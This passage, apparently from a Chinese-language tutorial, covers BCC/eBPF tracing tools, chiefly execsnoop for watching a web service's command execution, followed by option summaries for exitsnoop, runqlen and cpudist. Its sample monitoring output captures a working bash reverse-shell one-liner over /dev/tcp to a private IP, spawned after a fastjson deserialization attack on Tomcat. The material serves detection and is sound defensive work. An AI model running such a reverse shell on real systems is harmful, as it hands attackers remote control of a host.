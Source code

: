 ```BASH
awk              842870 842867   0 /usr/bin/awk {print $1}
sh               842872 8372     0 /bin/sh -c npu-smi info -l
sh               842873 8372     0 /bin/sh -c npu-smi info -l
sh               842874 8372     0 /bin/sh -c npu-smi info
```

比如在主机安全场景，部分Web服务可能存在漏洞导致远程命令执行，那么如何对Web服务执行命令的行为进行监控呢？可以使用`execsnoop`工具，通过`-u`参数，指定对Web服务进程的`uid`进行过滤，就可以看到该用户所有调用`execve`的情况（如下面示例）

```BASH
#对搭建了fastjson反序列化漏洞的tomcat用户进行execsnoop监控，攻击者通过反序列化POC获取了反弹shell，并执行了whoami命令
root@debian:~# execsnoop-bpfcc -u tomcat
PCOMM            PID    PPID   RET ARGS
bash             68335  68282    0 /bin/bash -c exec 5<>/dev/tcp/192.168.195.1/1888;cat <&5 | while read line; do $line 2>&5 >&5; done
cat              68336  68335    0 /bin/cat
whoami           68338  68337    0 /usr/bin/whoami
```

使用BCC/eBPF的方式具有以下优点：

-   应用层无感知，无需重启Web服务，可在运行时随时启动或退出监控（直接`Ctrl-C`停止`execsnoop`退出）
-   在内核`execve`系统调用处进行记录，即使进行`bash`命令混淆，还是可以看到最终执行的真实命令

####    常用的BCC分析工具（汇总）
1、`execsnoop`：新建进程追踪（前文已提）

```BASH
# execsnoop
# -x： 找到包含创建失败的新进程
# -n pattern：只输出COMM符合pattern过滤条件的结果
# -l pattern：只输出ARGS符合pattern过滤条件的结果
# --max args argv：输出命令参数个数的上限，默认为20
```

2、`exitsnoop`：进程退出探测，跟踪进程退出事件，打印出进程的总运行时常和退出返回码

```BASH
# exitsnoop
# -p pid: 仅测量该进程
# -t：包含时间错信息
# -x：仅关注程序异常退出
```

3、`runqlen`：用来采样CPU运行队列的长度信息，可以统计有多少线程正在等待运行，并以线性直方图的方式输出（按每个CPU core进行统计）

```BASH
# runqlen
# -C：每个CPU输出一个直方图
# -O：运行队列占有率信息，运行队列不为0的时长百分比
# -T：在输出中包括时间戳信息
./runqlen -C -T
```

4、`cpudist`：用于线程执行时长分析，展示每次线程唤醒之后在CPU上执行的时长（不包含线程在队列中的等待信息）分布

```bash
# cpudist
# -m：以毫秒为单位输出
# -O：输出off-cpu时间（非在CPU上执行的时间）
# -P：每个进程打印一个直方图
# -p -pid：仅测量给定的进程
```
